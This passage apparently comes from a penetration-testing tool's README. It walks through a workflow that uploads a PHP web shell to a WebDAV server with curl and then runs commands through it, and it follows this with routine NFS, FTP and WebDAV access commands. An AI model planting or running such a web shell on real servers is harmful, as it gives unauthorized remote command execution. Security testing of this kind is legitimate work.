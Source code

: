 ### Workflow 4: WebDAV Shell Upload
```bash
# 1. Find WebDAV
./shareseek.py | grep WebDAV

# 2. Test write access
curl -X PUT http://192.168.1.53/webdav/test.txt -d "test"

# 3. Upload shell
curl -X PUT http://192.168.1.53/webdav/shell.php \
    -d '<?php system($_GET["cmd"]); ?>'

# 4. Execute
curl http://192.168.1.53/webdav/shell.php?cmd=whoami
```

## Manual Commands

### NFS
```bash
# Show exports
showmount -e 192.168.1.51

# Mount with specific version
mount -t nfs -o vers=3 192.168.1.51:/data /mnt/data

# Check mount options
mount | grep nfs

# Force unmount
umount -f /mnt/data
```

### FTP
```bash
# Connect with specific user
ftp user@192.168.1.50

# Download recursively (wget)
wget -r ftp://anonymous:@192.168.1.50/

# Upload file
ftp> put file.txt
```

### WebDAV (cadaver)
```bash
# Install cadaver
sudo apt install cadaver

# Connect
cadaver http://192.168.1.53/webdav

# Commands
dav> ls
dav> get file.txt
dav> put file.txt
```
